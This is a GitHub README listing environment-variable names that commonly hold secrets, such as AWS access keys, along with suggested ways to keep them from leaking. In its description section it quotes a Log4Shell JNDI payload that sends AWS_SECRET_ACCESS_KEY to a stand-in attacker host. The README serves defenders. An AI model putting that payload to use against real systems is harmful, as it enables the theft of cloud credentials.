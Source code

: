 <div align="center" >🤝 Show your support - give a ⭐️ if you liked the content | <a target="_blank" href='https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2FPuliczek%2Fawesome-list-of-secrets-in-environment-variables&via=pulik_io&text=Awesome%20list%20of%20secrets%20in%20environment%20variables'>SHARE on Twitter</a>
| Follow me on
 <a target="_blank" href='https://twitter.com/pulik_io'><img src='https://img.shields.io/badge/Twitter-%231DA1F2.svg?&style=flat&logo=twitter&logoColor=white'/></a>
 <a target="_blank" href='https://www.youtube.com/channel/UCaAdOBH2hnqLvEri1M7eg5Q'><img src='https://img.shields.io/badge/YouTube-%23FF0000.svg?&style=flat&logo=youtube&logoColor=white'/></a>
</div>

---

# **Awesome list of secrets in environment variables [![Awesome](https://awesome.re/badge.svg)](https://awesome.re)**

# 📝 Description

List of secrets, passwords, API keys, tokens stored inside a system environment variables.

**An environment variable** is a variable whose value is set outside the program, typically through functionality built into the operating system or microservice.

Many developer documentations recommends storing secrets inside an environment variable, but is it the best way to keep secrets?

The attacker can read values inside system environment variable by using exploits:
- CVE-2021-44228 JNDI log4j (JAVA) ([Read more...](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words#1-system-environment-variables))
 
  `${jndi:ldap://somesitehackerofhell.com/z?leak=${env:AWS_SECRET_ACCESS_KEY:-NO_EXISTS}}`

  Get **AWS_SECRET_ACCESS_KEY** or return **NO_EXISTS**
- CVE-XXXX-XXXX Web browser attack (Writeup/POC coming soon to my Github - Follow me on [Github](https://github.com/Puliczek) and [Twitter](https://twitter.com/pulik_io) 😉
- and much more...

Because of that I created, a list of secrets in environment variables to help secure software. 

Some of practices to avoid leak of secrets stored in environment variables is to:
- Block/notify on WAF when the request includes system environment variables
- Store in system environment variable path to a config file, instead of clean value
- Encrypt values inside environment variable
- Use different way to store secrets 🤓

![Environment variables](https://user-images.githubusercontent.com/12344862/147656611-8726c036-128b-4ad4-a19b-c019c2d6b1ea.png)


You can check your system environment variables:
- Windows execute in PowerShell: `dir env:`
- Linux/MacOS execute in terminal: `printenv` or `env`


# **Awesome list of secrets in environment variables**
# A
## AWS
- AWS_ACCESS_KEY_ID
- AWS_SECRET_ACCESS_KEY
- AMAZON_AWS_ACCESS_KEY_ID
- AMAZON_AWS_SECRET_ACCESS_KEY
